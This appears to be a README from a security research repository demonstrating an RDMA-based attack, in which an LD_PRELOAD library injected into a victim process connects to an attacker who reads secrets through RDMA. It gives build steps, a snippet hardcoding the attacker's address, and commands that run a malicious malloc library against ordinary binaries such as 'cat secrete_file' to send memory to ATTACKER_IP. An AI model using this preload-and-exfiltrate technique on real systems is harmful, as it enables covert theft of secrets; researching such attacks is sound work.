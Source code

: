 # (A6) Facilitating Attacks using RDMA


The attack shows if an attacker has the privilege to preload a library to a victim’s application, the attacker can misuse this
ability to *inject code* that establishes an RDMA connection to the attacker’s application.
The attacker waits for a connection from the victim, and then the attacker silently reads the victim's secret using RDMA reads.


## Requirements
 * GCC >= 4.9 with C++11 features
 * rdma-core library, or equivalent RDMA verbs library 
 * RDMA-capable network devices must have assigned IP addresses
 * ODP-capable RDMA device for ODP usage

## Usage 

To compile the code simply run `make`. 
Note, to run the attack, we require manually edit `victim.cpp` to specify the IP address of the attacker application.

To perform an attack, the attacker should be lunched using `./attacker -a <IP>`, where `<IP>` is the IP address of the attacker.
Then the malware of the victim code should be modified to establish the connection with the provided IP address. 
For that, modify the IP address in `victim.cpp`:
```
  // should be IP and port of the attacker
  ret = rdma_getaddrinfo("192.168.1.10","9999", &hints, &addrinfo);
```
Then the victim can be launched (`./victim`) on any node within the same network as the attacker. The victim application will invite you to type a secret. The secret will be fetched by the attacker using RDMA reads. Note, that the malware uses predictability of malloc (V4).


Basic usage example
```
make
./attacker -a 192.168.1.10
./victim
```

## On-demand paging 
To use ODP capabilities, we require to manually modify the preload malware of the victim. 
For that, you should modify the following lines of `victim.cpp`:
```
 // change to true to use implicit ODP.
  bool useodp = false;
```

## LD_PRELOAD malloc attack

This attack should send all the allocated memory
information of an unmodified binary to an
attacker.

First run the attacker:
```
make
./attacker -a ATTACKER_IP
```

Then run the victim program with malicious malloc library:
```
make
LD_PRELOAD=./malmalloc.so victim_malloc
LD_PRELOAD=./malmalloc.so cat secrete_file
```

